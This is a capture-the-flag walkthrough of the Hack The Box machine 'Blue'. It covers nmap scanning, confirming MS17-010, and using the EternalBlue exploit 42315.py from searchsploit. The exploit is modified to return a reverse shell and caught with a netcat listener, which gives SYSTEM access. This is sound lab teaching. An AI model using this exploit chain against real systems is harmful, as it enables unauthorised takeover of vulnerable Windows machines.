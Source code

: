 <p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/86ee30d6-5fc7-4c3f-8844-d35480574798">
</p>

<h1 align="center">Blue</h1>

<h2>Intro</h2>

<p>In this walkthrough we are going to talk about the machine <strong>Blue</strong>, it's an easy machine. We are going to me exploiting MS17-010, or Eternal Blue.
EternalBlue is a cyberattack exploit developed by the NSA that targets a vulnerability in Microsoft's SMB protocol. Its purpose is to gain unauthorized access to Windows computers. It had a significant impact, being used in major cyberattacks like WannaCry and NotPetya, causing widespread disruption and damage globally.
You can get more info about it here:
</p>

<a href="https://github.com/blog/eternalblue-nsa-developed-exploit-just-wont-die" align="center">
  <img src="https://gh-card.dev/repos/blog/eternalblue-nsa-developed-exploit-just-wont-die.svg" alt="GitHub Repository Card">
</a>


<h2>Walkthrough</h2>

<h3>Recon and ennumeration</h3>

<p>As always we start by doing a fast TCP SYN scan with nmap</p>

<pre>nmap -p- -v -sS -Pn -f -n --min-rate 5000 --open 10.10.10.40 -oG allPorts</pre>

<ul>
  <li><strong>-p-</strong>: we are specifying that we want as many ports as possible to be scanned<li>
  <li><strong>-v</strong>: gives me a more detailed output during the scan</li>
  <li><strong>-sS</strong>: here we specify that we are doing a TCP SYN scan, it's faster than a full TCP scan, at the moment we just want to check the ports</li>
  <li><strong>-Pn</strong>: this flag is set to disable host discovery. It is used when the target does not respond to pings</li>
  <li><strong>-n</strong>: disables DNS resolution, this flag gives us more speed in the scan by avoiding resolving hostname, we will check that later</li>
  <li><strong>--min-rate 5000</strong>: with this flag, we are setting the minimum packet sending rate to 5000 packets per second, it makes the scan faster</li>
  <li><strong>--open</strong>: here we are specifying that we only want to show in the scan result the ports that are open</li>
  <li><strong>-oG allPorts</strong>: I am saving the scan result in a grepeable file called allPorts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/7924a960-3d1d-4f37-bfb5-1b8408b72992">
</p>

<p>We can see that port 445, we are going to do a more thorough scan of the ports to see if we find anything else but, at this point we should directly throw the script that shows if it is vulnerable to MS17-010. Whenever we look at port 445 and see that the system is a Windows XP to Windows Server 2016 system we should check if it is vulnerable to EternalBlue.</p>

<pre>nmap -p135,139,445 -v -Pn -n --min-rate 5000 --open -sCV 10.10.10.40 -oN targeted</pre>

<ul>
  <li><strong>-sC</strong>: It runs default scripts to get more info about our target. Uses common scripts for common vulns</li>
  <li><strong>-sV</strong>: this flag will return the version of the service that is on the open port</li>
  <li><strong>-oN targeted</strong>: this flag outputs the scan on a file named targeted. has a more comprehensible result</li>
</ul>

<p>
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/1d76b40b-5bb6-4735-9674-b4c0cdc92a40">
</p>

<pre>nmap -p445 --script smb-vuln-ms17-010 10.10.10.40</pre>

<ul>
  <li><strong>--script</strong>:  is used to specify Nmap scripts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/d1838ef7-7f55-4a1a-8297-af5ceca9dda2">
</p>

<p>Yep, it's vulnerable to MS17-010!</p>

<h2>Getting inside</h2>

<p>Here we already know that it's vulnerable to EternalBlue, so let's use <strong>searchsploit</strong> to check if Kali has something to deal with it (Kali obviously has tools for it 😄)</p>

<pre>searchsploit ms17-010</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/b54562df-0d78-47e9-a4d5-50bbb31d6bc1">
</p>

<p>We can see a few scripts, the one that has helped me is the script 42315.py. So in the directory we are working in, we do the following to bring us the script</p>

<pre>searchsploit -m windows/remote/42315.py</pre>

<ul>
  <li><strong>-m</strong>: this flag will tell searchsploit to move/copy the script to the current directory</li>
</ul>

<p><strong>IMPORTANT:</strong> I've got some problems with this script becouse it's quite old and it's using Python 2.7, here it is what I've done to make it work:</p>

<ol>
  <li>
    <p>sudo apt update</p>
    <p>sudo apt install build-essential libssl-dev libffi-dev python2 python2-dev</p>
  </li>
  <li>
    <p>curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py</p>
    <p>sudo python2.7 get-pip.py</p>
  </li>
  <li>
    <p>git clone https://github.com/SecureAuthCorp/impacket.git</p>
    <p>cd impacket</p>
  </li>
  <li>git checkout impacket_0_9_22</li>
  <li>sudo pip2 install -r requirements.txt</li>
  <li>sudo python2.7 setup.py install</li>
  <li>pip install pyasn1 pycryptodomex</li>
</ol>

<p>You can also try to clone mysmb.py instead of the whole impacket git, but this is how it worked for me</p>

<p><strong>ALSO IMPORTANT:</strong> I was also looking at the script code and, you have to add or uncomment the two lines below the lines I have added in the smb_pwn() function, this function is just uploading a .txt right now, what we are looking for is to return a reverse shell, so let's prepare it with msfvenom</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/ad2d380a-7c08-4554-86f5-b6e3013e921b">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/392d1791-9b40-4a56-b08d-924d72eb7bee">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/946a71e5-1003-46ca-ab63-e58ee6708104">
</p>

<p>And now if we prepare a listener with <strong>Netcat</strong> and execute the python script we are in! Also we are authority\system already! 😄</p>

<pre>nc -lnvp <PORTOFYOURCHOICE></pre>

<pre>python2 42315.py 10.10.10.40</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/c62aaea8-fd4b-41b1-a515-292594b428bc">
</p>

<p>So we can get both flags!</p>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/de58a251-53c5-4a43-83b4-fca57711af26">
</p>

<p>This machine has been interesting to make, I have learned something more about EternalBlue. Be nice!</p>
